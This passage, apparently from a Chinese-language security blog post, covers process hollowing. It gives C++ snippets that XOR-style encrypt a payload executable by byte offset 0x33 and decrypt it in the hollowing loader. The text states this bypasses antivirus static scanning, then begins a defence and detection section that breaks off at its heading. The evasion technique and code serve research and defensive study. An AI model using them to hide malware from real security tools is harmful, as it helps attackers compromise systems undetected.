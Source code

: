 ```
    HANDLE hFile2 = CreateFileA
    (
        DesPath,
        GENERIC_WRITE, 
        0, 
        0, 
        CREATE_ALWAYS, 
        FILE_ATTRIBUTE_NORMAL, 
        0
    );
    if (hFile2 == INVALID_HANDLE_VALUE)
    {
        printf("Create file error\n");
        CloseHandle(hFile2);
        return 0;
    }
    WriteFile(hFile2,pBuffer2,dwSize,&dwSize,NULL);
    CloseHandle(hFile2);
    return 0;
}
```

输出新的加密文件HelloWorld.exe，不会被静态查杀

ProcessHollowing工程添加一个解密操作，逐字符作0x33减，关键代码如下：

```
DWORD dwSize = GetFileSize(hFile, 0);
PBYTE pBuffer = new BYTE[dwSize];
PBYTE pBuffer2 = new BYTE[dwSize];
DWORD dwBytesRead = 0;
ReadFile(hFile, pBuffer2, dwSize, &dwBytesRead, 0);
for(DWORD i=0;i<dwSize;i++)
{
    pBuffer[i]=pBuffer2[i]-0x33;
}
```

至此，完成静态查杀的绕过

**注：**

ProcessHollowing.exe行为拦截的绕过，本文暂不介绍

## 0x04 防御检测

这种傀儡进程的利用，由于最开始创建了正常的进程，因此欺骗性很高

例如创建傀儡进程calc.exe,进程的图标和描述都是正常的calc.exe，数字签名也正常

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/4-1.png)

**防御方法：**
